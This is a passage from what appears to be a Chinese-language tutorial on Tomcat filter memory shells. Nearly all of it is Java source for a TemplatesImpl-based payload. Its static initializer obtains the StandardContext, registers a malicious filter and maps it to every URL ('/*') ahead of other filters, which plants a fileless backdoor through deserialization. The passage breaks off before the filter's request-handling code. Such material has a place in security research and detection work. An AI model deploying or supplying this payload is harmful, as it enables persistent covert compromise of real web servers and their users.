 不要super：

```java
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }
```



filter内存马JAVA TemplatesImpl版：

```java
package org.example.tomcatmemshell.Filter;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.Context;
import org.apache.catalina.WebResourceRoot;
import org.apache.catalina.core.*;
import org.apache.catalina.loader.WebappClassLoaderBase;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;

import javax.servlet.*;
import java.io.IOException;
import java.lang.reflect.Field;
import java.lang.reflect.Modifier;
import java.util.Enumeration;

public class FilterMemShell extends AbstractTranslet implements Filter {
    private String message;

    static {
        try {
            //获取StandardContext
//            StandardContext standardContext = getStandardContext1();
            StandardContext standardContext = getStandardContext2();
            if(standardContext != null){
                //自定义StandardWrapper注册进StandardContext
                FilterMemShell filterMemShell = new FilterMemShell();
                FilterDef filterDef = new FilterDef();
                filterDef.setFilter(filterMemShell);
                filterDef.setFilterName("filterMemShell");
                filterDef.setFilterClass(filterMemShell.getClass().getName());
                standardContext.addFilterDef(filterDef);
                standardContext.filterStart();
                //将恶意filterConfigs放进StandardContext

                FilterMap filterMap = new FilterMap();
                filterMap.setDispatcher(DispatcherType.REQUEST.name());
                filterMap.setFilterName("filterMemShell");
                filterMap.addURLPattern("/*");
                standardContext.addFilterMapBefore(filterMap);
                //修改参数filterMap

            }
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }


```